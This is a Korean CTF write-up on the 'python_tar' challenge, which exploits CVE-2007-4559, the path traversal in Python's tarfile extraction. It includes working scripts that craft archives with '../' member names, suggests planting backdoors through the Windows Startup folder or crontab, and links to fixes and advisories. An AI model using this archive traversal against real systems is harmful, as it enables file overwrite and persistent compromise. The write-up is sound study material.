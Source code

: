 # python_tar

`CVE-2007-4559` 취약점을 활용하는 문제이다.

```python
import tarfile
def change_name(tarinfo):
    tarinfo.name = "../b/" + tarinfo.name
    return tarinfo

with tarfile.open("test.tar", "w:xz") as tar:
    tar.add("test.txt", filter=change_name)
```

위와 같이 tar 내부에 존재하는 이름을 수정한 tar 파일을 만들고

```python
import tarfile

with tarfile.open("test.tar", "r") as tar:
    tar.extractall()
```

해당 파일을 extract하면 그 경로로 압축 해제된다.

만약 최고 권한으로 실행되어 있다면 윈도우는 `C:\Users\사용자 계정\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` 경로에 압축을 풀어서 백도어를 심을 수 있고, 리눅스에서는 `crontab` 파일을 덮어서 백도어로 활용할 수 있겠다.

```
hyuunnn@hyuunnn:/mnt/c/Users/hyuunnnn/Desktop/cve-2007-4559/a$ tar -xvf test.tar
tar: Removing leading `../' from member names
tar: ../b/test.txt: Member name contains '..'
tar: Exiting with failure status due to previous errors
```

tar 명령어의 문제가 아닌 `tarfile` 라이브러리의 문제임을 확인할 수 있다.

https://github.com/microsoft/GRTr/pull/7/files - `safe_extract` 함수를 보면 `tar.getmembers()`를 사용하여 루프 돌면서 경로가 맞는지 확인한다.

## 문제 풀이

1. 문제 파일로 주어진 `run.py` 코드를 분석
2. `flag.txt` 파일을 만들어서 위 코드에서 요구하는 문자로 저장
3. `make_tar.py`를 실행하여 tar 파일 생성

```python
## make_tar.py
import tarfile

def change_name(tarinfo):
    tarinfo.name = "../../../../../../tmp/" + tarinfo.name
    return tarinfo

with tarfile.open("test.tar", "w:xz") as tar:
    tar.add("flag.txt", filter=change_name)
```

4. 생성된 tar 파일을 웹 서버에 업로드하면 `FLAG`가 출력된다.

## 관련 자료

https://www.bleepingcomputer.com/news/security/unpatched-15-year-old-python-bug-allows-code-execution-in-350k-projects/

https://discuss.python.org/t/policies-for-tarfile-extractall-a-k-a-fixing-cve-2007-4559/23149

https://github.com/python/cpython/issues/45385

https://www.trellix.com/en-us/about/newsroom/stories/research/the-bug-report-september-2022-edition.html#CVE-2007-4559

https://www.trellix.com/en-us/about/newsroom/stories/research/limiting-the-software-supply-chain-attack-surface.html

https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html

https://www.cwn.kr/news/articleView.html?idxno=12545

https://github.com/advanced-threat-research/Creosote

https://docs.python.org/3/library/tarfile.html#tarfile.TarFile.extractall

https://www.theregister.com/2022/09/22/python_vulnerability_tarfile/

https://github.com/microsoft/GRTr/pull/7/files https://github.com/tensorflow/privacy/pull/344/files
